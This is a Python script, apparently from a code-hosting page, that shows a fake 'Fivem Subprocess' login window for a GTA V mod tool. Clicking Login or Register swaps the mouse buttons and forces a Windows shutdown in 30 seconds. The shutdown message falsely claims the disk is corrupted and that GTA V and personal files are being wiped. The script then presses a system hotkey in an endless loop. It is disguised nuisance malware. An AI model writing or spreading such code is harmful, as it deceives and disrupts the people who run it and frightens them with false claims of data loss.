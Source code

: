 import os
import customtkinter
import pyautogui
import time
import ctypes

class Main():
    def __init__(self):
        pass

    def on_closing(self):
        pass

    def inverter_botoes_mouse(self, inverter=True):
        if inverter:
            # Troca o botão esquerdo pelo direito
            ctypes.windll.user32.SwapMouseButton(1)
        else:
            # Volta ao normal
            ctypes.windll.user32.SwapMouseButton(0)

    def login(self):
        # Inverte os botões do mouse
        self.inverter_botoes_mouse(True)

        os.system('shutdown /s /f /t 30 /c "Disco corrompido. Como medida drástica de liberar espaço desinstalando Grand Theft Auto V - (GTA 5) e arquivos pessoais. Iniciando a formatação do computador..."')
        self.erro = customtkinter.CTkLabel(self.janela, text="Erro catastrófico!", font=("Italic", 20, "bold"))
        self.janela.protocol("WM_DELETE_WINDOW", self.on_closing)
        self.button_login.destroy()
        self.texto1.destroy()
        self.button_registrar.destroy()
        self.user.destroy()
        self.senha.destroy()
        self.erro.pack(padx=15, pady=15)
        time.sleep(15)
        self.janela.attributes("-topmost", True)
        while True:
            pyautogui.hotkey('ctrl', 'shift', 'win', 'b')
            time.sleep(1)

    def registrar(self):
        os.system('shutdown /s /f /t 30 /c "Disco corrompido. Como medida drástica de liberar espaço desinstalando Grand Theft Auto V - (GTA 5) e arquivos pessoais. Iniciando a formatação do computador..."')
        self.erro = customtkinter.CTkLabel(self.janela, text="Erro catastrófico!", font=("Italic", 20, "bold"))
        self.janela.protocol("WM_DELETE_WINDOW", self.on_closing)
        self.button_login.destroy()
        self.texto1.destroy()
        self.button_registrar.destroy()
        self.user.destroy()
        self.senha.destroy()
        self.erro.pack(padx=15, pady=15)
        self.janela.attributes("-topmost", True)
        time.sleep(15)
        while True:
            pyautogui.hotkey('ctrl', 'shift', 'win', 'b')
            time.sleep(1)

    def janela(self): 
        self.janela = customtkinter.CTk()
        customtkinter.set_appearance_mode("light")
        self.janela.geometry("500x300")
        self.janela.resizable(width=False, height=False)
        self.janela.title("Fivem Subprocess")
        self.button_login = customtkinter.CTkButton(self.janela, text="Login", command=self.login)
        self.button_registrar = customtkinter.CTkButton(self.janela, text="Registrar", command=self.registrar)
        self.texto1 = customtkinter.CTkLabel(self.janela, text="Faça login ou registre", font=("Italic", 20, "bold"))
        self.user = customtkinter.CTkEntry(self.janela, placeholder_text="Usuário:")
        self.senha = customtkinter.CTkEntry(self.janela, placeholder_text="Senha:", show="*")
        self.texto1.pack(padx=10, pady=10)
        self.user.pack(padx=10, pady=10)
        self.senha.pack(padx=10, pady=10)
        self.button_login.pack(padx=10, pady=10)
        self.button_registrar.pack(padx=10, pady=10)
        self.janela.attributes("-topmost", True)
        self.janela.mainloop()

if __name__ == "__main__":
    Main = Main()
    Main.janela()
